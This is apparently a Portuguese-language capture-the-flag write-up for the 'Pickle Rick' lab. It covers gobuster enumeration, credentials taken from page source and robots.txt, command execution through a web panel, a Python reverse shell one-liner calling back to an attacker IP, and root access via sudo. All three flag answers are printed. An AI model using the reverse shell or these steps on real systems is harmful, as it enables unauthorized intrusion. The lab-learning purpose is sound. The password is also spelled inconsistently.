

# **_Easy - Pickle Rick CTF_**

_This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle._

## _**Enumeração**_
Primeiro, vamos começar abrindo o _web server_ com o IP fornecido  
E logo em seguida, vamos inspecionar o código da página  
Logo de cara encontramos uma pista
_Note to self, remember username!_ <mark>Username: R1ckRul3s</mark>

> ``` bash
> gobuster dir --url [ip_address] -w ../seclists/Disocvery/Web-Content/common.txt
> ```

Temos algumas informações interessantes descobertas após esse scan
* **/.htpasswd (cod.403)**
* **/.htaccess (cod.403)**
* **/.hta (cod.403)**
* **/access (cod.301)**
* **/index.html (cod.200)**
* **/robots.txt (cod.200)**
* **/server-status (cod.403)**

Podemos excluir a procura em alguns destes diretórios, aqueles que tem retorno de código 403  
Vamos investigar <mark>/assets</mark>  

  
Suspeita-se de que algo possa estar obfuscado em algum destes arquivos  
Vamos continuar  

Investigando <mark>/robots.txt</mark>  
Temos apenas uma simples palavra, talvez uma senha: <mark>Wubbalubbadubdub</mark>

Não conhecemos nenhuma página de login, porém, podemos tentar descobrir alguma com (novamente) Gobuster
> ``` bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/Logins.fuzz.txt
> ```

Temos como resultado o seguinte:
* **/login.php (cod.200)**
* **/?page=admin.auth.inc (cod.200)**
* **/?page=auth.inc (cod.200)**
* **/?page=auth.inc.php (cod.200)**

Vamos investigar <mark>/login.php</mark>  


Usando:
* **user:** <mark>R1ckRul3s</mark>
* **password:** <mark>ubbalubbadubdub</mark>

E temos login  
Logo de cara, nos deparamos com um painel que aceita comandos   


Vamos tentar o comando ```ls```
* **Sup3rS3cretPickl3Ingred.txt**
* **clue.txt**
* **denied.php**
* **portal.php**
* **robots.txt**

Me parece que algum dos ingredientes está no arquivo <mark>Sup3rS3cretPickl3Ingred.txt</mark>  
Vamos puxar com o comando ```cat```  
Bloqueado!    

Vamos tentar com o comando ```sort```  
Temos retorno do que parece ser um ingrediente e também uma flag!  

> _**What is the first ingredient that Rick needs?**_ <mark>_mr. meeseek hair_</mark>  

Vamos continuar nossa investigação em <mark>/portal.php</mark>  
Verificando o código da página, encontramos como comentário uma string
> Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==

Essa string parece ser <mark>base64</mark>  
Vamos decodificar com o comando ``` echo ```  
> ```bash 
> echo 'Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==' | base64 -d
> ```

Ainda nada  
Vamos tentar mais algumas vezes  
> ```bash
> echo 'Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==' | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
> ```

Resultado: <mark>rabbit hole</mark>  
Parece que não nos levou a nada  

Por termos disponível um painel que aceita linha de comando, vamos tentar obter uma _shell_  
Ao tentarmos o comando ``` netcat ``` vemos que ele foi desabilitado  

Outra possibilidade é tentar executar algum comando (ex: python) para obtermos um _reverse shell_  
Executando ``` python3"('hello')" ```, temos retorno! Logo, comandos python são executados  
Vamos tentar o seguinte  
Em nossa máquina Kali:
> ``` bash
> nc -lnvp [port]
> ```  
Na página de comandos:
> ``` bash
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[vpn_ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```

<mark>Obtemos um shell reverso!</mark>


Dentro da shell, queremos obter acesso _**root**_  
Para isso, podemos fazer o seguinte:
O comando ``` sudo -l ``` é usado em sistemas Linux e Unix para listas os **_comandos que o usuário atual tem permissão para executar com privilégios de superusuário através de ``` sudo ```_**  
Esse comando é uma maneira útil de verificar quais comandos podem ser executados como ``` sudo ``` sem precisar de senha ou permissões limitadas  
  

Podemos obter acesso _root_ com o seguinte comando
> ``` bash
> sudo bash
> ```

Após obter acesso root, navegamos para o seu diretório ~  
Dando um ```ls```, encontra-se o terceiro ingrediente dentro de um arquivo _.txt_

> _**What is the last and final ingredient?**_ <mark>fleeb juice</mark>

Procurando em outros diretórios, como /home, encontramos o diretório rick  
Dentro, um arquivo, _second ingredient_  
Basta um ```cat *``` para descobrir  
> _**What is the second ingredient in Rick’s potion?**_ <mark>1 jerry tear</mark>
